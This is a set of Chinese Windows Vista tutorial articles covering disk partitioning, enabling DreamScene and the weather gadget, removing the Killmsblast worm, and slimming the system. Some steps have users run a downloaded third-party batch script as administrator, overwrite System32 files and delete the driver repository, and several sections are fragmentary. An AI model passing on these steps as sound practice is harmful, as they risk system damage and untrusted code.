- 第1步：逐级进入被删除或重命名文件(文件夹)所在的路径，单击“打开文档”链接。如果你已经忘记了文件或文件夹的确切名称或位置，可以在文档的“搜索”框中键入部分名称来搜索，应当说Windows Vista的搜索功能是非常强的，几乎可以说是即输即搜。
- 第2步：单击左侧窗格底部的“文件夹”旁边的“∧”按钮，目的是为了展开文件夹列表，然后定位到包含已删除或重命名文件或文件夹的文件夹路径。
- 第3步：右键单击文件夹中的某处，注意不要选择其下的任何文件或文件夹，此时你会看到快捷菜单中的“还原以前的版本”命令。
- 第4步：在这里可以看到当前可以选择还原的所有版本。
- 第5步：双击需要还原的某个版本，此时会打开一个“以前”的文件夹窗口，可以看到窗口顶端的标题栏中显示了以前从未看到的时间信息，这就是保存在系统中的所谓卷影副本，在这里将需要还原的文件或文件夹拖曳至其他的位置，例如桌面或其他文件夹就可以了。

#### 六、磁盘管理

我们知道，对于预装了操作系统的品牌机来说，出厂时的默认配置都是只有一个分区，除非用户订购时额外提出要求，这当然需要付费。大部分情况下，如果需要多个分区，你恐怕需要重新安装操作系统，或者借助等第三方软件才能实现，其实Windows Vista的磁盘管理已经为我们提供了相应的功能。

### 1.创建新分区

在不重装操作系统的前提下，我们可以在Vista下从现有的分区中划分出一个或多个新的分区。以管理员账户登录Windows Vista系统，右击桌面上的“计算机”图标，从快捷菜单中选择“管理”进入“计算机管理”窗口，在这里选择“存储→磁盘管理”，接下来按照下面的步骤进行操作：

- 第1步：压缩现有卷。
在需要继续分割空间的基本卷上，如图11所示，单击右键选择“压缩卷”，注意这里必须是无文件系统或使用NTFS文件系统的基本卷，否则快捷菜单中是不会出现这条命令的。
- 第2步：指定压缩空间量。
“压缩卷”这种分割方式可以在原有分区的基础上，默认对半分割为两个分区，也就是说你并不需要手工指定压缩空间量。当然，你也可以手工输入，但是输入的压缩空间量必须小于可用压缩空间的大小。
完成压缩后，我们会看到“磁盘管理”右侧窗格的底部会多出来一个绿色的“可用空间”卷。



- 第3步：新建卷。
右击刚刚划分出来的“可用空间”，从快捷菜单中选择“新建简单卷”，此时会弹出“新建简单卷向导”，单击“下一步”按钮。
①指定卷的大小，然后单击“下一步”按钮。
②分配驱动器或驱动器路径，单击“下一步”按钮。
③进行格式化，建议在这里选择“快速格式化”，这样可以节省格式化所需要的时间。
按照同样的方法，我们可以继续往下分割分区，Vista最多可以支持三个主分区，之后的分区会默认指向逻辑分区。如果需要在两个主分区的前一个主分区中分割分区，那么新建简单卷时会提示磁盘没有足够的空间来完成操作，此时请首先将后面的分区删除，然后再重新分割。

### 2.合并分区

如果需要将两个分区合并成一个分区，那么可以首先将之后的一个分区执行“删除卷”的操作，这主要是为了释放为未分配的空间。

在之前的一个分区上执行“扩展卷”的操作，此时会弹出一个“扩展卷向导”的对话框，单击“下一步”按钮。再次单击“下一步”按钮，最后单击“完成”按钮即可完成扩展卷向导。

返回磁盘管理的窗口，应该可以看到原本被删除的分区已经被合并到一个分区中。

### 傻博士问答：系统提示“VXD或386文件无效”错误

**故障现象：**系统在启动时显示“*.VXD或386文件无效”的错误提示，单击任意键后，系统能启动并运行正常。

**故障分析：**该故障的产生主要是因为，用户在系统中安装了不兼容的驱动程序或网络组件；采用正确的程序卸载方法将某些自启动程序卸载后，因为某种原因造成注册表损坏，于是用备份的注册表文件进行恢复，也会造成系统启动时找不到某些VXD或.386文件。

**解决方法：**若错误信息所涉及的文件扩展名为.386或未显示文件的扩展名，则先打开Windows文件夹中的System.ini文件，在该文件的[386Enh]节中删除错误提示所涉及的命令行。如果提示信息仍然存在，就需启动注册表编辑器，利用该编辑器提供的搜索功能找到该命令所在的主键，将该主键删除即可。若错误信息所涉及的文件扩展名为.vxd，则进入注册表编辑器，将对应的VXD驱动程序的主键删除。

### 傻博士问答：Killmsblast病毒的清除

**故障现象：**原本机器使用Windows 98，后升级到WindowsXP系统。但是此时发现感染上比较棘手的worm_killmsblast.10240病毒，它总是在上网的时候就会显示，而且根本无法继续使用。

**故障分析：**或许机器早已感染上该病毒，只不过它无法对Windows9X/ME操作系统起作用，而仅仅针对Windows2000/XP。事实上，该病毒是WORM_MSBLAST.A的新变种，运行后将自身副本DLLHOST.EXE（大约10KB）复制到目录%System%\wins下，然后创建服务“WINS Client”。病毒还将TFTPD.EXE文件复制到%System%\Wins目录下，并改名为SVCHOST.EXE，创建服务“Network Connections Sharing”。更为恶劣的是，病毒创建的服务使得病毒在计算机启动时自动运行，监听被感染计算机的707端口。此外，它还创建了一个排斥体“RpcPatch_Mutex”来防止在内存中出现多个病毒进程。

**解决方法：**如果手头有杀毒软件的话，更新病毒库即可解决问题。当然，没有正版杀毒软件的用户也可以手工清除。

首先请到微软的官方网站下载RPC DCOM漏洞补丁，然而在“开始”→“运行”中输入“CMD”，打开“命令行”窗口，在命令行窗口中输入：NET STOP “Network Connections Sharing” 回车后会有服务被成功停止的信息出现。再输入：NET STOP “WINS Client” 回车，然后关闭“命令行”窗口，病毒服务被除去。最后在“开始”→“运行”，输入“REGEDIT”，打开“注册表编辑器”，以此找到键值：HKEY_LOCAL_MACHINE>SYSTEM>CurrentControlSet>Services 在左边的子键中删除以下子键： RpcPatch RpcTftpd

### 搞定Windows Vista的两大难题：梦幻桌面和天气预报

◆文/春水东流

相信很多朋友已经用上了Windows Vista，不过旗舰版本的“梦幻桌面”和中文版本的“天气”小工具恐怕是困扰你的两个难题，本文将详细介绍相关的情况并提供解决方案。

#### 一、梦幻桌面动起来

在CES 2007大会上，微软主席盖茨首先发表的重要演讲披露了一些很重要的内容，有些更是涉及微软未来十年的发展规划。在盖茨演讲期间，Windows客户机软件部门的产品经理Justin Hutchinson进行了标准的Vista演示,演示中首次展示了Ultimate Extras中的两个插件。

#### 1.微软的礼物

价格昂贵的Vista Ultimate旗舰版本除了已有专属特性之外，还将源源不断地提供各种专用的小软件，这就是“Ultimate Extras”，我们可以理解为针对Windows Vista Ultimate提供的程序、服务和收费内容。

###### （1）Windows Ultimate Extras能做什么

利用Windows Ultimate Extras，我们可以获得：

- 最尖端的程序：使用只在Windows Ultimate Extras上才可用的Microsoft程序，如果有新的下载，Windows Update将会通知你。
- 创新的服务：从独特的服务中受益，这些服务可以制定最适合你的数字生活方式的新体验，让你的体验更强大、更具效率和个性化。
- 独特的发布：下载侧重于数字生活方式的收费内容，发现有助于充分利用Windows Vista Ultimate的技巧和策略。

###### （2）找出Windows Ultimate Extras

单击“开始”按钮，然后再单击“所有程序”，在这里可以发现“Windows Ultimate Extras”的身影，或者也可以进入“控制面板”→“安全”→“Windows Update”界面，在这里单击“检查更新”按钮，可以查看是否有可用的Windows Ultimate Extras更新，或者在开始菜单的“开始搜索”框输入“Ultimate Extras”，待出现搜索结果后直接按下回车键。

#### 2.Windows Ultimate Extras的可用组件

目前可以使用的Ultimate Extras组件还并不是很多，而且各个语言版本的Windows Vista可用的组件数量也不相同。简体中文版本提供了BitLocker和EFS增强，后者包含两款小工具：Windows BitLocker磁盘准备工具，经过EFS认证的在线安全密钥备份工具，可以更方便地应用Vista Ultimate的安全特性；英文版本提供了BitLocker和EFS增强、Windows DreamScene(梦幻桌面，可以将视频文件设置为桌面背景)、德州扑克游戏(流行的扑克小游戏)等更多的更新。

很多用户都抱怨说，Vista Ultimate Extra的产品出得实在太慢，即使已经发布的产品都明显创意不足。针对这种呼声，在Windows Vista Team Blog中，微软Ultimate Extras小组的成员宣布了几项后续产品发布计划，近期的计划是DreamScene和Language Pack Extras，团队成员说他们将发布数款有趣的产品。

#### 3.Windows DreamScene的使用

作为Ultimate Extras两个目前可用的免费插件之一，Windows DreamScene允许用户使用高清晰的视频作为桌面的背景，为此微软与WinCustomize.com合作创建了一个新网站：Dream.WinCustomize.com，另外还将与Stardock密切合作开发DreamScene，同时还将会使用包括Aurora在内的3D进行渲染。

###### （1）DreamScene概述

Windows DreamScene的优势是在播放背景视频和动画时并不会占用过多的CPU资源，而是通过显卡硬件加速的DWM(DWM，Desktop Windows Manager)软件来完成处理，CPU只是完成视频的解码工作，这可以在相当程序上保证视频和动画背景不会明显地降低系统整体性能。

对笔记本系统而言，Windows DreamScene还可以自动检测电池状态并在电池电量不足时自动停止视频播放而代之以静态画面以降低电量消耗。

###### （2）启用DreamScene

勿容讳言，Windows DreamScene对显卡的要求相当之高，当然还有一些其他的条件。下面是实现Windows DreamScene的相关条件：

我们知道，Windows Vista有着多个版本，其中只有最顶级的旗舰版本(Ultimate Edition)才能获取Ultimate Extras，但目前只有英文版本提供了此项更新，Windows DreamScene目前尚未被发布到中文版本。

Windows DreamScene并不要求Windows Vista是否被激活，但必须是“原”版用户，具体来说不能是使用了非正规的手段实现了“激活”的版本，例如替换文件、搭建非法KMS服务器等，否则的话，即使下载了安装文件，安装时也将会弹出“更新不会应用到系统”的警示框。

需要指出的是，Windows DreamScene必须在启用Windows Aero的基础上才能实现，这对计算机的硬件配置有一定的要求，例如支持DirectX9.0的显卡、1GB的物理内存、64MB的显存，如果是使用集成显卡，那么可能需要进入“个性化→主题”和“个性化→窗口颜色和外观”两个对话框手工启用Windows Aero。

如果你使用的是英文“原”版的Windows Vista Ultimate Edition，那么通过在线更新将可以自动安装并启用Windows DreamScene，一切都是非常的简单。

右击桌面，从快捷菜单中可以发现"Play DreamScene (Preview)"，选择后进入"Personalize→Desktop Background"对话框，在"Location"下拉列表框中选择"Windows DreamScene Content"或"Videos"，如图1所示，在这里选择相关的视频文件，单击"OK"按钮，确认后即可生效。



图1

#### 4.设置技巧

对于大多数用户而言，可能尚未真正开始体验DreamScene的梦幻魅力，本节将介绍相关的设置技巧。

###### (1) 中文Vista Ultimate也能实现梦幻桌面

看了前面的介绍，可能很多使用中文Vista Ultimate的用户要大失所望，难道这部分用户竟然与梦幻桌面无缘？当然不是，按照下面的步骤，我们完全可以让中文Vista实现梦幻桌面，不过是稍费些时间和精力而已。

###### 第1步：安装英文语言包。

由于中文版本的Vista暂时不支持动态桌面，首先需要安装Vista的英文语言包，Windows Vista Ultimate可以通过自带的更新功能获得各种语言包。
从控制面板中打开“Windows Update”窗口，选择“查看可用更新”，我们可以在这里选择所需要安装的语言包，也就是说通过在线更新的方法安装英文语言包。
不过，这种方法安装的英文语言包需要的时间可能会相当漫长，

其实微软官方已经提供了英文等16个语言包的直接下载，英文版语言包的下载地址为http://www.download.windowsupdate.com/msdownload/update/v3-19990518/cabpool/lp-en-us_c38cb05f3146b642c95743633998808fa5229875.exe，这个文件虽然不是太大，才251.9MB，但安装时却会占用1GB左右的硬盘空间，因此请事先预留足够的空间。

###### 第2步：更改显示语言。

进入控制面板选择“更改显示语言”，打开“区域和语言选项→键盘和语言”对话框，这时应该已经可以在“选择显示语言”的下拉列表框中更改显示语言，选择“English”，确认后需要注销或重启系统。

> 提示
只要保证系统已正确安装英语语言包，即使不更改显示语言也可以，毕竟简体中文的界面看起来更为直观。

###### 第3步：查看更新。

进入控制面板，打开“Windows Update”界面，在左侧的任务窗格中选择“检查更新”，检查完成之后，会发现这里已经有可用于下载的Windows Ultimate Extras，其中就包括盼望已久的BitLocker和EFS增强、Windows DreamScene预览两个组件，如图2所示，单击“查看可用Extras”按钮。



图2

###### 第4步：选择更新。

选择“Windows DreamScene”复选框，至于是否选择“BitLocker和EFS增强”，可以根据实际需要而定，这里还同时选择了三个重要的安全更新，单击“安装”按钮。

###### 第5步：安装更新。

由于是在线下载并安装，因此这里可能需要一定的时间，请耐心等待片刻即可。

###### 第6步：重启系统。
经过一段时间的等待，Windows DreamScene预览在内的四个更新会完成安装，系统会提示需要重启计算机后才能应用。

> 提示
在重启系统之前，我们可以再次将显示语言更改为“中文(简体)”，仍旧进入控制面板，打开“Regional and Language Options→Keyboards and Languages”对话框，在“Choose a display language”下拉列表框中选择“中文(简体)”，确认后再重启系统。

###### (2) 启用中文菜单

由于目前都是通过安装英文语言包或者替换相关文件后实现的梦幻桌面效果，因此你会发现“个性化→桌面背景”中的相关内容会自动变更为英文，而且右击桌面也会出现相应的英文命令，虽然这些英文信息并不影响使用，但看起来总是不那么令人痛快。

远景论坛的版主wbpluto发布了针对Dream(梦幻桌面)、Hold'Em(德州扑克)两款的汉化补丁，下载地址为http://bbs.ithtc.net/wbpluto/hh/VistaUltimateExtras-DreamScene&Holdem-HH.rar，安装后即可让尴尬的英文信息重新回归中文本色，讨厌英文的朋友不妨一试。

###### (3) 让声音响起来

需要说明的是，默认设置下梦幻桌面并不会自动激活声音效果，因此在播放视频时你获得的只是无趣的“无声”效果，很多朋友误认为是声卡驱动程序的问题，其实并非如此，这只是被自动禁用了声音效果而已。
右击系统托盘区的“声音”图标，打开“音量混合器”对话框，在这里单击“Windows 梦幻场景(预览版)”下面的音量图标启用声音效果。

###### (4) 快速启用梦幻桌面

常规操作下，我们一般都是右击桌面，进入“个性化”窗口，然后在这里选择“桌面背景”，然后再在“位置”下拉列表框中选择某个视频文件设置为桌面背景，鼠标操作来回数次，绝对是无谓的肌肉运动。
其实，我们有更简单的办法来快速启用梦幻桌面，和以前快速设置图片为桌面背景类似，在“计算机”窗口中进入包含视频文件的文件夹，右击选择某个视频文件，从快捷菜单中选择“设置桌面背景(梦幻场景预览版)”，如图3所示。



###### （5）卸载梦幻桌面

在享受美丽的视频桌面效果时，自然必须付出相当的代价，如果你的硬件配置不是那么强大，那么可能反而是一件痛苦的事情，因此还是适可而止。不过，你会发现无法在“控制面板→卸载程序”中找到关于卸载梦幻桌面的选项。

其实，Windows DreamScene只是“Ultimate Extras”增值服务中的一个更新项目，因此我们可以进入“程序→程序和功能→已安装更新”窗口，在这里找到并卸载“Windows DreamScene Preview(KB929327)”，卸载英文语言包的操作也是在这个窗口中完成。

##### 5. 非旗舰版本也用DreamScene

看了前面的介绍，相信朋友们已经准备跃跃欲试了，不过对于那些并非使用Ultimate版本的Vista用户来说，是否也能通过某些变通的方法在自己的系统中体验梦幻桌面的快感呢？

有办法，国外网友提供了相关的解决方案，可以在所有非Ultimate版本的Windows Vista下实现梦幻桌面，包括Home Basic、Home Premium、Starter、Business、Enterprise甚至是Windows Server 2008 Beta3等全系列，都可以享受梦幻桌面，而且还不需要安装英文语言包。

第1步：获取文件包。

请打开快车或迅雷程序，将“http://www.bjxfw.cn/2007/NonUltimateDreamScene.rar”下载回来，解压缩到某个临时文件夹中备用，这个文件包的个头并不大，也才583.7KB。

第2步：执行安装脚本。

将下载回来的压缩包释放至某个临时文件夹中，找到InstallDreamScene.bat，右击选择“以管理员运行”，请输入“Y”选择继续。或者，也可以从开始菜单的“所有程序→附件”中找到“命令提示符”，右击选择“以管理员身份运行”，然后在命令提示符模式下输入“InstallDreamScene.bat”，按下回车键手工执行安装脚本。

如果在执行批处理脚本时提示错误，可以将DreamScene.dll.mui、DreamScene.dll两个文件覆盖到“C:\Windows\System32\”和“C:\Windows\System32\en-US\”路径下；接下来将DreamScene.dll.mui、themecpl.dll.mui两个文件复制到系统目录的“Windows\system32\en-us”文件夹下，请注意必须保证两个路径下都有这些文件才行。

> 在覆盖文件时，如果提示权限不够，可以打开文件属性窗口切换到“安全”选项卡添加权限，具体操作这里就不多介绍了。

第3步：导入注册表。

文件覆盖完成后，请重新启动系统进入安全模式，在“C:\Windows\Web”文件夹下手工创建一个名为Windows DreamScene的目录，最后双击运行DreamScene.reg导入注册表。

完成上述工作后，重新启动系统，在桌面的右键菜单中会发现“Play Windows DreamScene”的命令，按照前面介绍的方法设置视频桌面，然后即可获得梦幻桌面的效果，如图4所示。



#### 二、中文版本下天气预报小工具

默认设置下，Windows边栏默认只是加载时钟、图片拼图板、源标题、幻灯片放映这四个小工具，因此如果你需要让天气预报显示在边栏中，那么需要手工添加才行。

不过，简体中文版本的Windows Vista无论设置为国内的哪一个城市，这里总是会显示“正在获取数据”的尴尬提示，最后的结果当然是“服务无法使用”，但英文版本的Vista并没有这样的尴尬情况，仅仅是中文版本中才会如此。解决这个问题可以考虑三种方法：

##### 方法一：更换语言内核

由于英文版本可以正常显示天气预报，假如你不希望重新安装系统的话，那么可以通过更换语言内核的方法来解决这个问题。

双击桌面上的控制面板图标，选择“时钟、语言和区域”并依次进入“区域和语言选项→格式”窗口，首先将当前格式设置“英语(美国)”，接下来切换到“位置”标签页，将“当前位置”设置为“美国”，然后切换到“管理”标签页，在这里更改系统区域设置为“英语(美国)”，确认后需要重新启动系统。

这种方法能够让中文版本的Vista正常显示天气预报，但由于系统语言的更改，在运行非Unicode程序时会出现乱码而无法正常显示，因此这始终只是一个临时性的应急办法，长期使用显然是不现实的。

##### 方法二：安装第三方天气小工具

我们可以换一种思路，试试其他的第三方小工具，例如前面提到的“天气与生活”，另外还有其他的天气小工具，但比较麻烦。

##### 方法三：享受“原生”的天气小工具

安装第三方天气小工具虽然是省时省力，但毕竟不是长久之计，因此最好还是想办法让Vista内置的天气小工具发挥作用，虽然麻烦一些，但从系统的稳定性和兼容性方面考虑，还是相当划算的。

第1步：获取英文天气预报的资源包。

既然英文版本的Vista可以正常显示天气预报，那么我们就可以从这方面着手，只要替换相关文件就可以了，如果有条件的话，你可以从安装了英文版本的机子上获取天气小工具的相关文件，主要是“C:\Program Files\Windows Sidebar\Gadgets\Weather.Gadget”这个文件夹。或者，也可以从网络上下载获得，直接下载地址是http://www.vista123.com/NewsUploadFiles/zh-CN_Vista123.com.rar，将其释放到某个文件夹中备用。

当然，假如你使用的是Ultimate或Business的版本，而且已经安装了英文语言包，那么就可以省去这一步骤了，也不用如此麻烦。

第2步：替换文件。

如果你的机子上还同时安装了Windows XP，那么请重新启动系统，进入Windows XP，将英文版本或者网络下载回来的“zh-CN”文件夹覆盖过去，路径是“C:\Program Files\Windows Sidebar\Gadgets\Weather.Gadget”。需要说明的是，这里的“C:\”是安装Vista所在的驱动器盘符，请根据实际情况进行操作，强烈建议在替换之前备份源文件。

不过，如果你的机子上并没有安装除Vista之外的操作系统，或者懒得重新启动系统，那么可以直接在Vista替换文件，这需要获得相应的权限。

第3步：获取城市的关键字段。

Vista的天气小工具其实是调用了MSN的天气资讯服务，我们需要获得所在城市的关键字段进行替换，这里以江苏苏州市为例进行说明。在浏览器中打开http://weather.msn.com/页面，这里默认会以华氏温度显示天气，单击页面右侧的“℃”按钮更改为摄氏温度。

找到“Find weather for”文本框，在这里输入所在城市的拼音信息，苏州市是“SuZhou, Jiangsu, China”，注意每个逗号的后面都有一个英文半角的空格，然后单击右侧的“Go”按钮，很快会显示出苏州市的天气资讯，如图5所示，此时地址栏中会变化为“http://weather.msn.com/local.aspx?wealocations=wc:32281”，最后的这个“wc:32281”就是苏州市的关键字段，请将其复制到剪贴板中备用。



第4步：更改默认城市。

用记事本打开“C:\Program Files\Windows Sidebar\Gadgets\Weather.Gadget\zh-CN\js\localizedStrings.js”这个文件，找到“// Default values for this locale”，将“Redmond, WA”更改为“SuZhou, CHN”(注意逗号的后面同样有一个英文半角的空格)，在这里将“wc:USWA0367”更改为“wc:32281”，将“Fahrenheit”更改为“Celsius”，表示使用摄氏温度，更改完成后保存退出。

补充：其实，我们在前面所下载的文件中，热心网友已经为我们将英文天气小工具中的相关内容替换为简体中文，这样操作起来就方便多了，不过你可能还是需要重置默认城市才行。

第5步：添加所在城市的中文信息。

如果没有下面的步骤，那么天气小工具中只能显示苏州市的英文天气资讯，这显然不是我们的初衷。

用记事本打开“C:\Program Files\Windows Sidebar\Gadgets\Weather.Gadget\zh-CN\js\weather.js”这个文件，如图6所示，将这里的任意一个城市更改为苏州市的信息，注意包括拼音和中文都必须同时更改，这里并不需要添加江苏省的信息，修改完成后保存退出，当然你也可以按照原有格式继续添加其他的城市。



第6步：让微软雅黑字体正常显示。

替换文件后，如果发现微软雅黑字体在中文版本的Vista系统下无法正常显示，那么请使用记事本打开“C:\Program Files\Windows Sidebar\Gadgets\Weather.Gadget\zh-CN\css\weather.css”这个文件，找到第12行，将“MS”更改为“Microsoft”即可。

第7步：重新添加天气小工具。

现在，我们就可以重新从“开始”菜单的“所有程序→附件”中加载Windows边栏，打开“添加小工具”对话框，在这里双击天气小工具，或者将其直接拖曳到屏幕右侧的边栏中，如果刚才的操作没有什么错误，那么会立即显示苏州市的天气情况，假如需要查看三天的天气预报，只要将其拖曳到边栏外面就可以了(见图7)。



完成上述工作后，建议将“C:\Program Files\Windows Sidebar\Gadgets\Weather.Gadget”的“zh-CN”这个文件夹备份下来，在微软彻底解决中文版本Vista的天气预报问题之前，我们可以在重装系统后直接替换，从而省去上面这些手工更改设置的麻烦事。

如果你在更新系统之后，发现原本正常的天气小工具无法显示天气预报，说明这是原来修改的某些文件已被重新覆盖，请按照上面的步骤重复操作，当然我们还是期待微软能够在SP1补丁包中一劳永逸地解决这个问题。

### 傻博士问答：

#### MPEG4无法播放

故障现象：从网站上下载了一些MPEG4电影，但其中有少数几个不能播放。我已经安装了DivX的最新版本，配合Windows Media Player 8.0也无济于事。

故障分析：认为这很可能是因为该MPEG文件采用Xvid进行压缩，而不是DivX。事实上，Xvid与DivX同属于MPEG4分支。

解决方法：Xvid解码器可以到http://www.xvid.org下载。建议用户使用最新版本，因为Xvid编码器从诞生起就以稳定性著称，只不过它对于机型的性能要求稍高，CPU主频需要达到1.5GHz以上才能达到令人满意的效果，而内存也不能少于512MB。

# “瘦到死” ——Vista终极减肥攻略


◆文/胡鹏

安装Windows Vista时，要求安装分区具有NTFS文件系统的8.6GB可用空间，安装完成后再加上休眠文件、页面文件、自动创建的还原点，即使什么软件也没有安装，已经占用了10GB左右的空间。当你再安装完常用软件，例如，Office、杀毒软件、媒体播放软件、Photoshop、AutoCAD以及3ds max等，再安装几个大型游戏，整个系统所耗费的硬盘容量可能就会让你目瞪口呆！

虽说现在主流硬盘的容量都很大，可是谁也不愿意让自己的硬盘空间被大量用不上的东西占据着。没关系，只要你稍有电脑基础，那么完全可以按照本文介绍的方法给Vista进行“瘦身”，只要操作正确，危险系数是很低的。

#### 一、手动给Vista系统减肥

对于有一定电脑基础的用户来说，通过手动来给Vista系统减肥，还能达到熟悉Vista系统的目的。下面是关于本文所介绍方法的注意事项及说明：

- 本文以32位Windows Vista Ultimate（旗舰版）为例进行介绍，同时该系统已经使用了一段时间，具有很强的代表性。但需要注意，如果你安装的是其他版本的Windows Vista，那么本文提到的某些占用硬盘空间的文件可能并不存在。因此你只需要对照本文删除自己系统中存在的文件即可顺利地给Vista减肥。
- 本文中提到的C盘泛指安装了Windows Vista的系统盘盘符，如果你安装Vista到其他盘符，以此类推即可。
- 操作过程中会弹出“用户账户控制”提示窗口，单击“继续”即可。

### 1.取消休眠

Windows Vista安装完成后会自动启用休眠功能。用户让电脑进入休眠状态时，Vista在关闭系统前会将所有的内存数据写入休眠文件（hiberfile.sys）上。重新启动电脑时，操作系统会使用休眠文件把所有信息放回内存，让电脑恢复到关闭前的状态。但Windows Vista并不会将休眠文件删除，而是一直放在硬盘上，它往往占用了多达几个GB的硬盘空间。实际上，大部分用户根本用不上休眠功能，而且Vista已经有了睡眠功能，这就足够了，下面就介绍两种将“hiberfile.sys”这个“大块头”从系统中清除出去的方法。

> 小提示：
> ①必须要以管理员方式运行“命令提示符”，否则执行的命令无效；
> ②如果日后需要启用休眠，用同样的方法运行“powercfg -h on”命令即可。

### （2）用磁盘清理程序删除休眠文件

利用Windows Vista自带的磁盘清理程序，可以安全地删除系统中的垃圾文件。在系统分区上单击鼠标右键，选择“属性”命令，打开“属性”窗口。在“常规”选项卡下单击“磁盘清理”按钮，此时会弹出一个对话框，让我们选择清理范围。单击“此计算机上所有用户的文件”，经过文件扫描以后打开“磁盘清理”对话框，如图1。在“要删除的文件”列表中选中“休眠文件清理器”后单击“确认”按钮，系统会弹出一个提示框询问你是否要永久删除这些文件，单击“删除文件”按钮将其删除。删除休眠文件后，“开始”菜单中的“休眠”命令也会“消失”，也就是说休眠功能不可用了。使用磁盘清理程序，还可以清理诸如已下载的程序文件、缩略图、临时文件等系统垃圾文件。



### 2.关闭“系统还原”

Windows XP的“系统还原”功能大家都很熟悉了，Windows Vista的“系统保护”除了名称发生改变以外，功能方面也有很大的进步和变化。不过随着系统使用时间的增加，还原点会越来越多，所占用的硬盘空间甚至能达到几十个GB，那是相当“恐怖”。
下面介绍两种从系统还原中“夺回”硬盘空间的方法：一种是关闭“系统还原”，另一种是清理还原点。

### (1)彻底关闭系统还原

对于习惯使用Ghost的用户，或者是有丰富经验的电脑高手来说，“系统还原”功能没有多大作用，完全可以将其关闭，从而节约出大量硬盘空间。
从“开始”菜单中打开“计算机”，单击上方工具栏上的“系统属性”，再单击左边栏的“高级系统设置”。在打开的“系统属性”窗口里，单击“系统保护”选项卡，在“可用磁盘”中取消对复选框的勾选，当系统提示“是否要关闭系统还原？”时，单击“关闭系统还原”，最后确定即可。

### (2)保留系统还原，清理还原点

对于一些初级用户来说，“系统还原”功能还是很有用的，它可以监视系统以及某些应用程序文件的改变，并通过创建易于识别的还原点，让我们在电脑发生故障时恢复到以前的状态，从而保证系统的正常运行。
如果不想关闭“系统属性”功能，又要清理磁盘空间，可以按如下操作：

在Windows Vista所在盘符上单击鼠标右键，选择“属性”命令，在打开的“属性”窗口中单击“磁盘清理”按钮，接下来系统提示你选择要清理的文件，单击“此计算机上所有用户的文件”，经过文件扫描后，打开“Vista磁盘清理”窗口。单击“其他选项”选项卡，单击“系统还原和卷影复制”下的“清理”按钮，如图2。在弹出的提示窗口中单击“删除”按钮，单击“确定”按钮后还会再提示你一次，单击“删除文件”按钮即可。此操作将保留最近一次还原点，删除其他所有的还原点。



其实Windows Vista也不“傻”，当还原点占满了所有空间时，系统还原将删除旧的还原点，为新还原点让出空间。不过这种“不到黄河心不死”的做法，也未免让人难以接受。

###### （3）设定系统还原所占硬盘空间

在Windows XP中，我们可以很方便地设定系统还原所占用硬盘空间的上限，避免它“撑爆”硬盘。在Windows Vista中，我们同样可以限制系统还原所使用的硬盘空间，不过操作就稍微麻烦一些了，实现办法需要采用Windows Vista中的“卷影复制服务管理”命令行工具vssadmin，下面简要介绍设置步骤：

在“命令行提示符”上单击鼠标右键，选择“以管理员身份运行”，将其打开，输入如下命令并执行：

```
vssadmin resize shadowstorage /on=C: /for=C: /maxsize=2GB
```

注意：每个“/”前面均有一个空格。

其中，“/on=C: /for=C:”指定待设置的硬盘分区；“maxsize=2GB”即为系统还原可以使用的硬盘空间上限，具体数值可根据自己的硬盘大小而定。

退出命令行窗口，重新启动Windows Vista使设置生效。

当然，系统还原使用的硬盘空间被限制之后，可保存的系统还原点数量也会相应地减少，不过一般情况下都够用了。

##### 3. 转移或删除虚拟内存文件

虚拟内存的概念是相对于物理内存而言的，当系统的物理内存空间不足时，操作系统便会在硬盘上开辟一部分空间当作内存使用，这部分硬盘空间就叫“虚拟内存”。

虚拟内存文件的大小默认为物理内存的1.5倍。当系统盘空间紧张时，可以将虚拟内存文件转移到其他分区；如果电脑物理内存足够大，则完全可以关闭虚拟内存文件。

在Windows Vista下转移或删除虚拟内存的方法其实与Windows XP并没有多少区别。从“开始”菜单中启动“计算机”，单击工具栏上的“系统属性”，再单击左边栏的“高级系统设置”，打开“系统属性”窗口。单击“性能”下的“设置”按钮，在打开的“性能选项”窗口中单击“高级”选项卡，再单击“虚拟内存”下的“更改”按钮，打开“虚拟内存”窗口。取消选择“自动管理所有驱动器的分页文件大小”复选框，单击Windows Vista所在的驱动器，在下方将其设置为“无分页文件”，记住一定要单击右边的“设置”按钮。

如果你的系统有2GB以上的物理内存，操作到此就结束了，对于有大容量内存的电脑来说，禁用虚拟内存还能使系统“飞”起来，运行得更加流畅。如果你物理内存的容量不够大，那么必须要将虚拟内存转移到其他分区上。单击一个自由空间较大的分区（这里选择F盘），在下方选择“系统管理的大小”后单击“设置”按钮即可，此时在此分区的“分页文件大小”下将出现“托管的系统”字样，如图3。要使设置生效，可能要重启电脑。



##### 4. 删除多余文件

Vista系统中还有很多几乎没有用的文件，我们需要对它们进行精简，例如，一些帮助文件，一些永远用不到的系统自带的难看壁纸，以及系统自带的视频文件等。

需要提示用户的是，除非你是电脑高手，否则一般不建议随便删除Windows Vista的任何系统文件，除非你确信这些文件删除后不会给系统带来什么损害，而且已经做好了备份工作。这里仅介绍安全的可删除项目。

- ① C:\Windows\Help: 帮助文件，大小为132MB。很多用户一辈子都不会去看一次帮助文件，可全部删除。
- ② C:\Windows\System32\DriverStore\FileRepository: 系统自带驱动程序的备份，大小为1.10GB。删除此文件夹后，插入新硬件（如常用的闪存盘和移动硬盘）时将不能自动找到驱动，而需要插入Windows Vista系统盘才能安装。所以，建议你在使用电脑一段时间后再删除，或者把所有自己可能要用的外设连接电脑识别后再进行删除，这样做才最保险。

这里要注意，FileRepository文件夹不能直接删除，系统会提示你没有权限，删除前需要进行如下设置：

在“C:\Windows\System32\DriverStore\FileRepository”文件夹上右击，选择“属性”命令，在弹出的对话框中依次单击“安全”选项卡→“高级”按钮→“所有者”选项卡，接着单击“编辑”按钮→“其他用户或组”按钮，打开“选择用户或组”对话框。在“输入要选择的对象名称”里面输入你的用户名，或者单击“高级”按钮→“立即查找”按钮，选择你的用户名，如图4所示。

## 清理IE垃圾文件

系统使用久了，难免会产生垃圾文件，我们可以使用“磁盘清理程序”来对系统进行清理。前面已经讲解过“磁盘清理程序”的使用方法，这里就不再赘述了。除此之外，建议你定期删除IE浏览器的临时文件、Cookie和历史记录等，这样做不仅可以给系统减肥，更重要的是可以保障网络安全，保护个人隐私。启动Windows Vista自带的IE 7，单击“工具”→“Internet选项”命令，单击“浏览历史记录”下的“删除”按钮，再单击“全部删除”按钮并确认即可。

#### 二、使用“Vista优化大师”瘦身

“Vista优化大师（Vista Master，）”是一款专业的Windows Vista系统优化工具，也是非常优秀的Vista优化设置和管理软件，其下载地址是：http://www.vista123.com/vistamaster/VistaMasterSetup.zip。

